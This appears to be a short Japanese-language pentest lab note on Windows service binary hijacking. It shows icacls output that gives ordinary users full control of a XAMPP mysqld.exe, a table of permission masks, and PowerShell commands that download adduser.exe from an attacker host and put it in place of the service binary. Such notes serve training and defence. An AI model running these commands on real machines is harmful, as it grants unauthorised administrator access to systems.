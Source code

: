 ```sh
icacls "C:\xampp\mysql\bin\mysqld.exe"
# C:\xampp\mysql\bin\mysqld.exe BUILTIN\Administrators:(F)
#                               NT AUTHORITY\SYSTEM:(F)
#                               BUILTIN\Users:(F)
```

| マスク | 権限            |
| --- | ------------- |
| F   | フルアクセス        |
| M   | アクセスの変更       |
| RX  | 読み取りおよび実行アクセス |
| R   | 読み取り専用アクセス    |
| W   | 書き込み専用アクセス    |
```sh
PS C:\Users\dave> iwr -uri http://192.168.45.189/adduser.exe -outfile adduser.exe
PS C:\Users\dave> move c:\xampp\mysql\bin\mysqld.exe mysqld.exe
PS C:\Users\dave> move .\adduser.exe c:\xampp\mysql\bin\mysqld.exe
```